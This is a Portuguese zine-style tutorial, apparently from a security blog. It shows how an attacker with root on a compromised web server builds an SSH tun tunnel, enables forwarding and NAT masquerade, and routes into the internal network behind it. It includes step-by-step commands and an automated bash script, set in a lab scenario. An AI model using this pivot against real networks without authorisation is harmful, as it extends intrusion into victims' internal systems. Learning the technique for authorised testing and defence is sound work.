









PIVOTEANDO POR TÚNEIS
----------------------------------------------------------------
offensive think :: artigo técnico em formato zine / nfo
----------------------------------------------------------------
titulo : Pivoteando por Túneis
autor : offensive think
data : Fri, Aug 7, 2020
tags : techinique, pivoting
----------------------------------------------------------------
--> https://www.offensivethink.com/posts/pivoting.html <--
---[ INDEX ]------------------------------------------------------------
0 - TL; TR; É grande demais para ler
1 - Intro
2 - Montando o túnel
3 - Passo 1 - no kali - Criar interfaces tun0
4 - Passo 2 - No kali e na Vitima - Configurar os IPs
5 - Passo 3 - na vitima - configurar encaminhamento
6 - Passo 4 - no kali - configurar roteamento
7 - Script Automatizado
8 - Outras Referências
---[ 0x00 - TL; TR; É GRANDE DEMAIS PARA LER ]--------------------------
Vamos criar um túnel entre nosso kali e uma máquina invadida para poder, através dela, acessar outra rede.
*Pré-requisitos para a máquina invadida (vítima)*
:: Acesso SSH
:: Acesso Root
:: PermitTunnel yes no sshd_config
*Configurações assumidas*
:: Kali : IP: 192.168.1.5
:: Vitima: IP: 192.168.1.2 | Interface na rede interna: eth1
:: Rede Interna que se deseja Acessar: 192.168.56.0/24
:: IPs do túnel : 10.10.10.1/32 e 10.10.10.2/32
Observe o PROMPT para verificar em que máquina está sendo executado os comandos:
root@kali:/tmp# ssh -w0:0 root@192.168.1.2
root@kali:/home/kali# ip addr add 10.10.10.1/32 peer 10.10.10.2 dev tun0
root@kali:/home/kali# ip link set up tun0
root@kali:/home/kali# ip route add 192.168.56.0/24 via 10.10.10.2
root@webserver:~# ip addr add 10.10.10.2/32 peer 10.10.10.1 dev tun0
root@webserver:~# ip link set up tun0
root@webserver:~# sysctl net.ipv4.ip_forward=1
net.ipv4.ip_forward = 1
root@webserver:~# iptables -t nat -A POSTROUTING -o eth1 -j MASQUERADE
---[ 0x01 - INTRO ]-----------------------------------------------------
Este é um exercício de Post-Exploitation, ou seja, partiremos do princípio que a máquina já foi invadida e que *você já possui root*!
Existem N opções de pivoteamento e esta que vou apresentar é uma delas. A idéia é não se preocupar em ficar configurando redirecionamento de portas e permitir o acesso direto a rede desejada, passando por uma máquina invadida, permitindo pivotear de uma rede externa, por exemplo, para uma rede Interna.
Imagine o seguinte cenário montado como LAB.

O atacante já comprometeu uma das máquinas da rede 192.168.1.0/24 e também a máquina 192.168.1.2 (Web Server) e viu que ela possui uma interface de ligação com a rede 192.168.56.0/24.
Da máquina dele (192.168.1.5) ele, que possui todas as ferramentas que ele precisa, ele não consegue sequer escanear a nova rede.
Uma vez comprometida uma máquina , caso você possua credenciais de root , é possível criar um túnel entre a máquina invadida e sua máquina externa (um kali por exemplo) que permita você mapear uma outra rede a qual a máquina invadidada está conectada.
Vamos a configuração
*Máquina Invadida (webserver) já com usuário com permissões de root*
root@webserver:/tmp# ip -br addr show
lo UNKNOWN 127.0.0.1/8 ::1/128
eth0 UP 192.168.1.2/24 fe80::7d82:995d:21fe:7a0a/64
eth1 UP 192.168.56.143/24 fe80::a3fa:bc:9a30:39ba/64
root@webserver:/tmp#
root@webserver:~# ping -c1 192.168.56.128
PING 192.168.56.128 (192.168.56.128) 56(84) bytes of data.
64 bytes from 192.168.56.128: icmp_seq=1 ttl=64 time=0.528 ms
--- 192.168.56.128 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 0.528/0.528/0.528/0.000 ms
root@webserver:~#
*Máquina do atacante (kali)*
root@kali:/tmp# ip -br addr show
lo UNKNOWN 127.0.0.1/8 ::1/128
eth0 UP 192.168.86.29/24 fe80::20c:29ff:febe:46e9/64
eth1 UP 192.168.1.5/24 fe80::51ba:65d0:e569:2ddb/64
root@kali:/tmp#
root@kali:/tmp# ping -c1 192.168.56.128
PING 192.168.56.128 (192.168.56.128) 56(84) bytes of data.
--- 192.168.56.128 ping statistics ---
1 packets transmitted, 0 received, 100% packet loss, time 0ms
---[ 0x02 - MONTANDO O TÚNEL ]------------------------------------------
:: Pré-requisitos
:: root na máquina invadida
:: acesso ssh na máquina invadida
:: opção PermitTunnel yes no sshd_config da vítima (você é root, isso você dá um jeito!)
---[ 0x03 - PASSO 1 - NO KALI - CRIAR INTERFACES TUN0 ]-----------------
No kali, máquina atacante, vamos conectar via ssh a máquina invadida (192.168.1.2) solicitando que seja seja criado um tunel device em ambas as pontas ( Opção -w do ssh. man ssh é seu amigo!)
root@kali:/tmp# ssh -w0:0 root@192.168.1.2

Observe que foram criadas interfaces tun0, que não existiam, em ambas as máquinas.

no kali atacante

na maquina invadida
---[ 0x04 - PASSO 2 - NO KALI E NA VITIMA - CONFIGURAR OS IPS ]---------
Vamos agora configurar as duas pontas do tunel: Máquina Invadida e Kali. Uma ponta vamos configurar com o IP 10.10.10.1 e na outra ponta com o IP 10.10.10.2. A idéia é que ambas as pontas se comuniquem como se estivessem ligadas via cabo direto! Os IPs foram escolhidos a gosto do freguês.
:: kali : 10.10.10.1
:: vitima: 10.10.10.2
*No kali *
root@kali:/home/kali# ip addr add 10.10.10.1/32 peer 10.10.10.2 dev tun0
root@kali:/home/kali# ip link set up tun0
root@kali:/home/kali# ip -br addr show
lo UNKNOWN 127.0.0.1/8 ::1/128
eth0 UP 192.168.86.29/24 fe80::20c:29ff:febe:46e9/64
eth1 UP 192.168.1.5/24 fe80::51ba:65d0:e569:2ddb/64
tun0 UNKNOWN 10.10.10.1 peer 10.10.10.2/32 fe80::a631:728:1d86:5f72/64
root@kali:/home/kali#
*Na máquina invadida *
root@webserver:~# ip addr add 10.10.10.2/32 peer 10.10.10.1 dev tun0
root@webserver:~# ip link set up tun0
root@webserver:~# ip -br addr show
lo UNKNOWN 127.0.0.1/8 ::1/128
eth0 UP 192.168.1.2/24 fe80::7d82:995d:21fe:7a0a/64
eth1 UP 192.168.56.143/24 fe80::a3fa:bc:9a30:39ba/64
tun0 UNKNOWN 10.10.10.2 peer 10.10.10.1/32 fe80::6849:52a3:d22f:fe5a/64
root@webserver:~#
⁉️*Atenção! *Observe que os comandos são os mesmos apenas invertemos os IPs. O que estamos dizendo é que um IP de um lado tem como par o IP do outro lado.
Neste momento as duas máquinas estão conectadas pelo túnel e já consegue trafegar dados por ele. Observe o ping de uma para outra:

kali → ping vitima

vitima → ping kali
---[ 0x05 - PASSO 3 - NA VITIMA - CONFIGURAR ENCAMINHAMENTO ]----------- Não é porque o túnel está estabelecido que já conseguimos acessar a rede 192.168.56.0/24. Observe o resultado, a partir do kali, para a máquina Intranet Server do lab (192.168.56.143).

Vamos agora configurar, *na máquina invadida*, o roteamento, para que todo pacote que venha do kali com destino a rede 192.168.56.0/24 seja devidamente encaminhado. *Pré-requisito* :: Qual a interface que conecta a máquina na rede desejada (eth1)

root@webserver:~# sysctl net.ipv4.ip_forward=1
net.ipv4.ip_forward = 1
root@webserver:~# iptables -t nat -A POSTROUTING -o eth1 -j MASQUERADE
root@webserver:~#
---[ 0x06 - PASSO 4 - NO KALI - CONFIGURAR ROTEAMENTO ]-----------------
root@kali:/home/kali# ip route add 192.168.56.0/24 via 10.10.10.2
⁉️*Atenção!* Observe que o IP de destino da rota é o IP associado a ponta do túnel na vítima!

kali pingando a nova rede. Agora, acessível.
Alguns comandos que podem ser úteis caso precise desabilitar interfaces, remover regras de iptables, etc.
iptables -L --line-numbers
iptables -F
ip link del <device>
---[ 0x07 - SCRIPT AUTOMATIZADO ]---------------------------------------
#!/bin/bash
# man ssh
# -f Requests ssh to go to background just before command execution.
# -T Disable pseudo-terminal allocation.
# -C Requests compression of all data
# -o ServerAliveInterval=30
# Sets a timeout interval in seconds after which if no data has
# been received from the server, ssh(1) will send a message through
# the encrypted channel to request a response from the server. The
# default is 0, indicating that these messages will not be sent to
# the server. This option applies to protocol version 2 only.
# -o ExitOnForwardFailure=yes
# According to the ssh man page, this option will cause "a client
# started with -f [to] wait for all remote port forwards to be
# successfully established before placing itself in the background".
IP_VITIMA=192.168.1.2 # Altere Aqui
INTERFACE_REDE_INTERNA_VITIMA=eth1 # Altere Aqui
REDE_INTERNA_ALVO=192.168.56.0/24 # Altere Aqui
echo "[+] Configurando tunel na vitima "
ssh -w0:0 root@$IP_VITIMA -fTC -oServerAliveInterval=30 -o ExitOnForwardFailure=yes "ip addr add 10.10.10.2/32 peer 10.10.10.1 dev tun0; ip link set up tun0; sysctl net.ipv4.ip_forward=1; iptables -t nat -A POSTROUTING -o $INTERFACE_REDE_INTERNA_VITIMA -j MASQUERADE"
ip addr add 10.10.10.1/32 peer 10.10.10.2 dev tun0
ip link set up tun0
ip route add $REDE_INTERNA_ALVO via 10.10.10.2
Pivoting to internal networks using ssh like a boss
https://medium.com/@mishrasunny174/pivoting-to-internal-networks-using-ssh-like-a-boss-be1cd9c5ac0f
---[ 0x08 - OUTRAS REFERÊNCIAS ]----------------------------------------
Today I Learned
https://til.hashrocket.com/posts/8kvvskdkhs-keeping-an-ssh-connection-alive
---[ EOF ]--------------------------------------------------------------
offensive think / 2026